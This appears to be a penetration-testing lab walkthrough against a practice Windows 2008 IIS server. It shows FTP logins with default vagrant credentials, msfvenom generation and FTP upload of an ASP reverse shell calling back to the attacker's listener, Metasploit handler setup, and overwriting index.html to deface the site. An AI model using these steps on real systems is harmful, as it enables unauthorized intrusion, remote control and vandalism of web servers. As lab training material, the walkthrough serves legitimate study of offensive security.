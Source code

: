 ```bash
ftp 10.2.29.246
# Use administrator:vagrant
```

![](.gitbook/assets/image-20230424111747193.png)

```bash
ls
    229 Entering Extended Passive Mode (|||49567|)
    125 Data connection already open; Transfer starting.
    10-28-21  07:22AM       <DIR>          aspnet_client
    10-28-21  07:19AM                   28 caidao.asp
    10-28-21  07:18AM                34251 hahaha.jpg
    10-28-21  07:18AM              1116928 index.html
    10-28-21  07:18AM              2439511 seven_of_hearts.html
    10-28-21  07:18AM               384916 six_of_diamonds.zip
    10-28-21  07:22AM               184946 welcome.png
    
# Web server home directory
```

- IIS can execute `.asp` files
- Generate an `.asp` reverse shell payload and upload it with FTP

```bash
cd Desktop/Win2k8/
ip -br -c a
	10.10.24.4/24
	
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.24.4 LPORT=1234 -f asp > shell.aspx
```

```bash
ftp 10.2.29.246
# use vagrant:vagrant
put shell.aspx
```

- Back to the `msfconsole` session tab

```bash
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.24.4
set LPORT 1234
```

- Open the browser and navigate to
  - `10.2.29.246/shell.aspx`
- In this case the reverse shell don't work.
- The next step of an attacker can be to **deface the website** - modifying the web application

```bash
ftp 10.2.29.246
get index.html
# modify the index.html than upload the edited web page
put index.html
```
